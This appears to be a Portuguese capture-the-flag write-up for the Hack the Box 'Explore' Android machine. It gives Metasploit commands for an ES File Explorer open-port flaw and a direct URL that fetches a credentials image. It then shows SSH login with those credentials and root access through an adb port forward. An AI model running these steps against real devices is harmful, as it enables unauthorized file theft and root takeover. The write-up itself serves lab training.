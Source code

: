 # Saudações, bem vindos!

### | Write-up by: no0n1 | "Explore" machine | 10.10.10.247 |

O projeto consiste em realizar as máquinas da plataforma Hack the Box, e criar o write-up em português para ajudar a comunidade nacional de hacking! 

Sinta-se livre para colaborar com o projeto.

//Não irei ensinar a conectar no servidor da máquina na plataforma da Hack the Box, mas saiba que é necessário baixar a vpn deles e se conectar, tem um guia no próprio site.

> "Use o conhecimento com sabedoria"

## ENUMERAÇÃO

Como de costume, começaremos um dos processos mais importantes do pentest, a fase de enumeração. Utilizaremos o nmap para isto, devido às suas diversas funcionalidades.	
Numa situação real, para não chamarmos muito a atenção, recomendo salvar o resultado do scan em um arquivo .txt, assim, caso precise relembrar alguma informação, não será necessário fazer outro request para o alvo.
		
![scan](https://user-images.githubusercontent.com/22158061/136661811-199f7f47-d458-4c3f-943a-a1e62fbcfc9c.png)

## EXPLORAÇÃO E EXPLOITATION

Após analisar as portas abertas e possíeis vulnerabilidades, abriremos o Metasploit.

```

 MSFCONSOLE
 use scanner/http/es_file_explorer_open_port
 set RHOSTS 10.10.10.247
 set action LISTPICS
 exploit

```
	
![images](https://user-images.githubusercontent.com/22158061/136662013-6e5cbaf4-5e14-4f9a-967a-bc3d7271c050.png)

Utilizaremos o scanner http do es file explorer, isto pq após pesquisar sobre as informações que coletamos na fase de enumeração, descobri que existe uma falha ai. Dentro deste módulo do Metasploit, é importante saber oq ele faz, vc consegue ver isso dando o comando ``` info ```.
Estimule a curiosidade, pesquise toda a informação que vc achar útil para o ataque. Mexa em tudo, vasculhe tudo. 
Teste todas as ações que o módulo permite, teste todas as possibilidas, foi assim que descobri algo curioso nas imagens.

```

Na barra de url do browser: 10.10.10.247:59777//storage/emulated/0/DCIM/creds.jpg

```

Conseguimos um possível login e senha.

Vamos tentar uma conexão ssh com esse login e senha.

```

 msf6 > ssh -p 2222 kristi@10.10.10.247

```

![whoami](https://user-images.githubusercontent.com/22158061/136662499-bece1d1f-191f-40e7-8534-5470e057a91b.png)

Conseguimos acesso! Hacked.

```

 ls
 cd /sdcard
 cat user.txt

```

![userFlag](https://user-images.githubusercontent.com/22158061/136662567-e32e8983-502e-4c8e-beba-1a335ce13f46.png)

Reforço a ideia de ser curioso e entrar e mexer em tudo, assim que descobri o arquivo com a flag. Primeira flag pega.

## ESCALANDO PREVILÉGIOS

```

 sudo apt-get install android-tools-adb 

```

ADB é uma ferramenta de comando de texto que nos permite comunicarmos com um aparelho, importante, já que é um android.

```

 ssh kristi@10.10.10.247 -p 2222 -L 5555:localhost:5555 

```

Em outra aba do terminal:

```

 adb connect localhost:5555

 adb shell	

```

![root](https://user-images.githubusercontent.com/22158061/136662752-7d4cf8ba-99e8-42f5-9790-5a76be5d6616.png)

Conseguimos mais uma vez! Acesso escalado. Pawned.

```

 find root.txt /* |grep "root.txt" 	

```

![findRootTxt](https://user-images.githubusercontent.com/22158061/136662892-038d1828-781e-4def-9e47-ac2382c7998c.png)

```

 cat /data/root.txt

```

![rootFlag](https://user-images.githubusercontent.com/22158061/136662908-77491602-4443-4f20-a143-89d3dca6832f.png)

Como geralmente a flag fica dentro de um arquivo root.txt, dei o comando para pesquisar onde estaria esse arquivo. Por sorte conseguimnos o caminho da segunda flag. 

## Obrigado por acompanhar, este é o primeiro. Pretendo continuar com outras máquinas e aumentando a dificuldade ao passar do tempo.

Até a próxima!


